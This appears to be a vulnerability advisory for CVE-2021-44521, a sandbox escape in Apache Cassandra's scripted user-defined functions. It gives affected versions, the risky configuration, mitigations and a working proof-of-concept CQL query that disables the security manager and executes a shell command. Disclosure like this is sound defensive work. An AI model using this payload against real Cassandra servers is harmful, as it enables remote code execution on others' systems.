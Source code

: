 ```yaml
---
description: CVE-2021-44521 High severity. Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution
title: Cassandra UDF RCE
date_published: "2022-02-15"
last_updated: "2022-02-15"
xray_id: XRAY-197962
vul_id: CVE-2021-44521
cvss: 8.4
severity: high
discovered_by: Omer Kaspi
type: vulnerability
---
```

## Summary
Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution

## Component

[Apache Cassandra](https://cassandra.apache.org/_/index.html)

## Affected versions

[3.0.0-alpha1, 3.0.25], fixed in 3.0.26

[3.1, 3.11.11], fixed in 3.11.12

[4.0-alpha1, 4.0.1], fixed in 4.0.2

## Description

CVE-2021-44521 is an RCE (remote code execution) issue in Apache Cassandra. This Apache vulnerability is easy to exploit and has the potential to wreak havoc on systems, but luckily only manifests in non-default configurations of Cassandra.  

Cassandra deployments are vulnerable to CVE-2021-44521 when the cassandra.yaml configuration file contains the following definitions:

```
enable_user_defined_functions: true
enable_scripted_user_defined_functions: true
enable_user_defined_functions_threads: false
```
A malicious authenticated user can run a trivial (publicly available) SQL query that causes remote code execution, by running JavaScript code in the query that abuses the JavaScript engine (Nashorn) and escapes the security sandbox

## PoC

```
create or replace function x.escape_system(name text) RETURNS NULL ON NULL INPUT RETURNS text LANGUAGE javascript AS $$
var System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch hacked")');name $$;
```



## Vulnerability Mitigations

1. If UDFs are not actively used, they can be completely disabled by setting `enable_user_defined_functions` to `false` (which is the default value)
2. If UDFs are needed, set `enable_user_defined_functions_threads` to `true` (which is the default value)
3. Remove the permissions of creating, altering and executing functions for untrusted users by removing the following permissions: `ALL FUNCTIONS`, `ALL FUNCTIONS IN KEYSPACE` and `FUNCTION` for `CREATE`, `ALTER` and `EXECUTE` queries ([see blog post for example query](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/))

## References

[(JFrog) CVE-2021-44521: RCE Vulnerability in Apache Cassandra](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/)